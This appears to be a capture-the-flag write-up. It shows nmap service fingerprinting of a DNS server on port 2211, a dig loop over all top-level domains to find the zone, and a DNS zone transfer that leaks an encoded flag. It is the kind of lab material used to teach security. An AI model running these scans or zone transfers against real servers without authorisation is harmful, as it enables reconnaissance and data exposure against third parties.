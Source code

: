 
**Solution**

There is nothing if we open this in the browser, and no response in netcat

The hint says "Service Fingerprinting"

So let's try to identify the service running on that port"

```
$ nmap 46.101.107.117 -p 2211 -sV

Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-05 21:56 CEST
Nmap scan report for 46.101.107.117
Host is up (0.070s latency).

PORT     STATE SERVICE VERSION
2211/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u6 (Debian Linux)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.84 seconds
```

ok, we see dns server running on the port, we can work with that.

so it sounds from the challenge description like the domain is deans-transfers.<tld>, but it's not .com, lets find out what it is

We vind a list of all TLDs here: https://data.iana.org/TLD/tlds-alpha-by-domain.txt

We loop over these and perform a dig command

```
$ for x in $(cat tlds-alpha-by-domain.txt); do dig +noall +answer +multiline deans-transfers.$x any -p 2211 @46.101.107.117; done;

deans-transfers.express. 302400 IN SOA deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. (
                                2          ; serial
                                302400     ; refresh (3 days 12 hours)
                                43200      ; retry (12 hours)
                                302400     ; expire (3 days 12 hours)
                                302400     ; minimum (3 days 12 hours)
                                )
deans-transfers.express. 302400 IN NS ns.deans-transfers.express.
```


Aha! so it's deans-transfers.express

Let's try a DNS zone tranfer

```
dig @46.101.107.117 -p 2211 axfr deans-transfers.express                                                                                           [05-05-22 21:49:25]

; <<>> DiG 9.16.15-Ubuntu <<>> @46.101.107.117 -p 2211 axfr deans-transfers.express
; (1 server found)
;; global options: +cmd
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
deans-transfers.express. 302400 IN      NS      ns.deans-transfers.express.
aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express. 302400 IN A 10.0.0.8
base64decode.deans-transfers.express. 302400 IN A 10.0.13.9
ns.deans-transfers.express. 302400 IN   A       10.0.0.2
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
;; Query time: 24 msec
;; SERVER: 46.101.107.117#2211(46.101.107.117)
;; WHEN: Thu May 05 21:49:32 CEST 2022
```